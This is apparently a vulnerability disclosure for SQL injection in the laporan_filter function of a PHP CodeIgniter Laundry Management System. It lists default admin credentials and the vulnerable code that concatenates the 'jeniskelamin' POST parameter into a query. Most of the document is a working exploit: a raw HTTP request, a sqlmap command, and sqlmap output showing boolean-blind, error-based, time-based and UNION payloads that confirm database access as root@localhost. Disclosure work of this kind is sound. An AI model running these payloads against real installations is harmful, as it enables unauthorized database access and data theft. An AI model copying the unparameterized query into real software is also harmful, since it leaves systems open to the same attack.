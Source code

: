 Laundry Management System SQL Injection on (/application/controller/Pelanggan.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/php-ci-laundry-management-system-source-code
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Crudentials:

```
admin
admin123
```

Affected Page:

```
/application/controller/Pelanggan.php
```

The potential injection point is located within the `laporan_filter` function, where the `$jeniskelamin` variable's value is directly embedded into the SQL query without the  use of parameterized queries or proper data sanitization, leading to a  risk of SQL injection.

```
	public function laporan_filter()
	{
		$user['username'] = $this->session->userdata('username');
		
		$jeniskelamin = $this->input->post('jeniskelamin');

		if ($jeniskelamin == "Semua") {
			$data['data_pelanggan'] = $this->data_pelanggan->get_data()->result();
		} else {
			$data['data_pelanggan'] = $this->db->query("select * from pelanggan where jeniskelamin = '$jeniskelamin'")->result();
		}
```

Proof of vulnerability:

Request:

```
POST /ci_laundry/pelanggan/laporan_filter HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://localhost
Sec-GPC: 1
Connection: close
Referer: http://localhost/ci_laundry/pelanggan/laporan
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14; ci_session=8u304rgjn04iv4m3mrloksfrovf11plm
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

jeniskelamin=Male*
```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: jeniskelamin=Male' RLIKE (SELECT (CASE WHEN (6788=6788) THEN 0x4d616c65 ELSE 0x28 END))-- qmeJ

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: jeniskelamin=Male' AND GTID_SUBSET(CONCAT(0x71786a6a71,(SELECT (ELT(4612=4612,1))),0x71786b7071),4612)-- cRzp

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: jeniskelamin=Male' AND (SELECT 7239 FROM (SELECT(SLEEP(5)))BzRj)-- iafZ

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: jeniskelamin=Male' UNION ALL SELECT NULL,NULL,CONCAT(0x71786a6a71,0x7a6673447a4a734b50674b47634454784873584471754171734a63757667685170794e7a594b6c47,0x71786b7071),NULL,NULL,NULL#
---
[15:21:39] [INFO] testing MySQL
[15:21:39] [WARNING] reflective value(s) found and filtering out
[15:21:39] [INFO] confirming MySQL
[15:21:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.0
[15:21:40] [INFO] fetching current user
current user: 'root@localhost'
```

